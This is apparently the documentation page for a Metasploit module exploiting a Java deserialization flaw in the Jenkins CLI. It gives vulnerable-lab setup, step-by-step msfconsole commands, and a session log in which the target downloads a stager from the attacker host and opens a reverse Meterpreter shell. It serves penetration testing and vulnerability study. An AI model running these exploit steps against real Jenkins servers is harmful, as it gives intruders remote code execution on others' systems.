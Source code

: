 ## Vulnerable Application

  An unauthenticated Java object deserialization vulnerability exists
  in the CLI component for Jenkins versions below `v2.54`.

  The `readFrom` method within the `Command` class in the Jenkins
  CLI remoting component deserializes objects received from clients without
  first checking / sanitizing the data. Because of this, a malicious serialized
  object contained within a serialized `SignedObject` can be sent to the Jenkins
  endpoint to achieve code execution on the target.

### Installation

  Vulnerable versions of Jenkins can be downloaded from [here](https://get.jenkins.io/war-stable/).
  Additionally, a [jdk](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html) will need to be installed on the target system.

  To start Jenkins, navigate to the location of the downloaded `war` file and execute:
  `java -jar <jenkins-file>.war`. To test if Jenkins is properly working, the CLI component
  can be accessed by navigating to `http://localhost:8080/cli`.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/jenkins_cli_deserialization`
  4. Do: `set RHOST <ip>`
  5. Do: `run`
  6. You should get a shell.

## Options

  No options

## Scenarios
### Jenkins `v2.32.1` on Ubuntu Linux 18.04.1`

```
msf6 > use exploit/linux/http/jenkins_cli_deserialization
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/jenkins_cli_deserialization) > set rhost 192.168.37.149
rhost => 192.168.37.149
msf6 exploit(linux/http/jenkins_cli_deserialization) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(linux/http/jenkins_cli_deserialization) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Jenkins version 2.32.1 detected
[*] Sending payload...
[*] Using URL: http://0.0.0.0:8080/JMpXWoK
[*] Local IP: http://192.168.1.141:8080/JMpXWoK
[*] Client 192.168.37.149 (curl/7.58.0) requested /JMpXWoK
[*] Sending payload to 192.168.37.149 (curl/7.58.0)
[*] Command Stager progress -  50.46% done (55/109 bytes)
[*] Command Stager progress -  70.64% done (77/109 bytes)
[*] Command Stager progress -  82.57% done (90/109 bytes)
[*] Command Stager progress - 100.00% done (109/109 bytes)
[*] Sending stage (976712 bytes) to 192.168.37.149
[*] Meterpreter session 7 opened (192.168.37.1:4444 -> 192.168.37.149:44748) at 2020-09-10 18:01:34 -0500
[*] Server stopped.

meterpreter > getuid
Server username: space @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.37.149
OS           : Ubuntu 18.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
